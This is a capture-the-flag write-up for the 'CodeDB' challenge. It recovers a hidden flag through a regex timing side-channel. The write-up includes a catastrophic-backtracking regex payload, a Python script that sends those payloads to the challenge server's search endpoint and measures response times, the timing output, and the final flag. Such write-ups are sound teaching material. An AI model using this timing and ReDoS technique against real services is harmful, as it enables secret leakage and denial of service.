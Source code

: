 ```yaml
---
ai_date: '2025-04-27 05:28:37'
ai_summary: Exploited timing difference in regex search to guess flag characters
ai_tags:
- regex
- timing-attack
- search
created: 2025-01-11T17:14
points: 388
solves: 52
title: CodeDB
updated: 2025-01-12T19:00
---
```


We need to somehow access flag.txt which is not accessible via `/view/:fileName` nor via the worker.

A lot of effort was spent on trying to somehow prototype pollute the worker, but in the end, I used timing attack.

The regex payload.

```
/(^uoftctf\{w.*$)|(^u(.*?)*o(.*?)*f(.*?)*t(.*?)*c(.*?)*t(.*?)*f(.*?)*\{(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*~$)/
```

The idea is simple, the regex can exit early if the flag prefix + the character guessed is correct. Otherwise it would have to execute the super time consuming regex on the right side of the `|`.

- `(^uoftctf\\{w.*$)` simple match for the flag string.
- `(.*?)*` these will cause the regex to backtrack constantly, slowing everything down.

I will guess one character at a time, taking the one that takes least amount of time to respond.

```python
from statistics import mean
import time
import string
import random
import requests
from tqdm import tqdm

target = "http://34.162.172.123:3000/search"
# target = "http://localhost:3000/search"


def try_flag(flag):
    s = time.perf_counter()
    res = requests.post(target, json={"query": flag, "language": None})
    e = time.perf_counter() - s
    return e


def check(prefix):
    def escape_special_chars(s):
        return ['\\' + c if c in string.punctuation else c for c in s]
    center = ''.join(f"{c}(.*?)*" for c in escape_special_chars(prefix))
    flags = [
        (f"/(^{''.join(escape_special_chars(prefix+c))}.*$)|(^{center}(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*~$)/", prefix+c) for c in string.printable
    ]
    flags = [flag for flag in flags for _ in range(1)]
    random.shuffle(flags)
    results = []
    for flag, _flag in tqdm(flags, desc="Processing flags"):
        time = try_flag(flag)
        results.append((time, _flag))
    flag_times = {}
    for time_taken, flag in results:
        if flag not in flag_times:
            flag_times[flag] = []
        flag_times[flag].append(time_taken)

    results = [(flag, min(times), mean(times), max(times)) for flag, times in flag_times.items()]
    results.sort(key=lambda x: x[1])
    for f, mn, md, mx in results[:5]:
        print(f"{f}: {mn} {md} {mx}")
    diff = results[1][1] - results[0][1]
    print(f"time diff = {diff}")
    print(f"final = {results[0][0]}")
    return results[0][0]


if __name__ == "__main__":
    prefix = 'uoftctf{'
    while True:
        prefix = check(prefix)
        print(prefix)
```

I originally wanted to run each payload a few times but the regex was so slow that it wasn't needed.

As you can see, the difference in time is huge.

```
uoftctf{why_15: 0.141611400002148 0.141611400002148 0.141611400002148
uoftctf{why_1z: 1.058887399995001 1.058887399995001 1.058887399995001
uoftctf{why_1+: 1.05915049999021 1.05915049999021 1.05915049999021
uoftctf{why_1@: 1.0593788999831304 1.0593788999831304 1.0593788999831304
uoftctf{why_1b: 1.0597369000024628 1.0597369000024628 1.0597369000024628
time diff = 0.917275999992853
final = uoftctf{why_15
```

The difference only gets larger as the flag prefix increase in size.

```
uoftctf{why_15_my_4pp_l4661n6: 0.10187479999149218 0.10187479999149218 0.10187479999149218
uoftctf{why_15_my_4pp_l4661nQ: 1.057343899999978 1.057343899999978 1.057343899999978
uoftctf{why_15_my_4pp_l4661n!: 1.0575902000127826 1.0575902000127826 1.0575902000127826
uoftctf{why_15_my_4pp_l4661n\: 1.0577397999877576 1.0577397999877576 1.0577397999877576
uoftctf{why_15_my_4pp_l4661nb: 1.0579903999750968 1.0579903999750968 1.0579903999750968
time diff = 0.9554691000084858
```

```flag
uoftctf{why_15_my_4pp_l4661n6_50_b4dly??}
```

Hrm, maybe this was the intended solution?